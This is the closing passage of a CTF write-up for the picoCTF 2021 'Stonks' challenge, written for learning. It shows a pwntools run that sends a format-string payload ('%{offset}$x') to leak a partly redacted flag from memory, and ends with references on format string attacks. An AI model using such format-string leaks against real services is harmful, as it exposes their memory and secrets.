 ```python
```

We start retrieving data until we come upon a chuck with the `}` character in and assume this is the end of the flag.

Finally, we run the script
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Binary_Exploitation/Stonks]
└─$ ~/python_venvs/pwntools/bin/python get_flag.py
/mnt/hgfs/CTFs/picoCTF/picoCTF_2021/Binary_Exploitation/Stonks/get_flag.py:17: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendlineafter(b"What is your API token?\n", f"%{offset}$x")
b'picoCTF{I_l05t_<REDACTED>}\x00\x8a\xff'
```

And there we have the flag (with some additional bytes).

For additional information, please see the references below.

## References

- [Wikipedia - Uncontrolled format string](https://en.wikipedia.org/wiki/Uncontrolled_format_string)
- [OWASP - Format string attack](https://owasp.org/www-community/attacks/Format_string_attack)
- [Exploiting Format String Vulnerabilities](https://cs155.stanford.edu/papers/formatstring-1.2.pdf)
